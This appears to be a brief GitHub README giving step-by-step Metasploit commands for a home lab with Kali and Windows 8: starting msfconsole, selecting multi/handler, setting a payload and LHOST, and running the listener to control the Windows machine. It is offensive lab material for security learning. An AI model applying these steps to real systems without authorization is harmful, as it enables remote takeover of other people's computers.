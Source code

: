 ## STEP:

Check your **IP ADDRESS** for both your kali and your windows8 system ensure to ping to both devices and get a response, go to your kali and start your **POSTGRESQL START** and also your **MSFDB INIT** service.


-**START YOUR MSFCONSOLE**.

-**SEARCH MULTI/HANDLER**.

-**USE 7**.

-**SHOW PAYLOADS**.

-**SET PAYLOAD 1315**.

-**SHOW OPTIONS**.

-**SET LHOST TO YOUR IP ADDRESS 192.168.0.15**.

-**SHOW OPTIONS.**

_**EXPLOIT -j**

-**RUN**

TYPE HELP FOR OTHER OPTIONS ON YOUR WINDOWS SYSTEM.

### contribute:
feel free to share your own experience 

### MICHAEL22



